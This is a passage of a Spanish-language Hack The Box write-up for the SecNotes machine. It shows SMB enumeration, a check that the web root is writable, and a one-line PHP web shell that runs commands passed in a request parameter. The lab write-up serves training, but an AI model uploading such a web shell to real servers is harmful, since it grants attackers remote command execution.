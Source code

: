 Vemos el recurso `new-site`, por lo que vamos a ingresar y ver que información encontramos.

```bash
❯ smbclient //10.10.10.97/new-site -U 'tyler'
Enter WORKGROUP\tyler's password: 
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Sun Aug 19 13:06:14 2018
  ..                                  D        0  Sun Aug 19 13:06:14 2018
  iisstart.htm                        A      696  Thu Jun 21 10:26:03 2018
  iisstart.png                        A    98757  Thu Jun 21 10:26:03 2018

                7736063 blocks of size 4096. 3396336 blocks available
smb: \>
```

Vemos archivos asociados a un sitio web y además contamos con permisos de escritura; por lo que ya debemos estar pensando en subir un archivo aspx malicioso que nos permite la ejecución de código remoto; por lo tanto vamos a crear un archivo de prueba y tratar de verlo vía web por el puerto 8808:

```bash
❯ echo "Esto es una prueba" > test.txt
❯ smbclient //10.10.10.97/new-site -U 'tyler'
Enter WORKGROUP\tyler's password: 
Try "help" to get a list of possible commands.
smb: \> put test.txt
putting file test.txt as \test.txt (0.0 kb/s) (average 1.7 kb/s)
smb: \> dir
  .                                   D        0  Sun Dec 26 18:26:26 2021
  ..                                  D        0  Sun Dec 26 18:26:26 2021
  iisstart.htm                        A      696  Thu Jun 21 10:26:03 2018
  iisstart.png                        A    98757  Thu Jun 21 10:26:03 2018
  test.txt                            A       19  Sun Dec 26 18:26:27 2021

                7736063 blocks of size 4096. 3396794 blocks available
smb: \>
```

Vamos a verlo vía web:

![](/assets/images/htb-secnotes/secnotes-web15.png)

Como el sitio web nos interpreta archivos php, podemos crear nuestro archivo php que nos permita la ejecución de comandos a nivel de sistema y lo subimos al sistema.

```php
<?php
        echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>"
?>
```
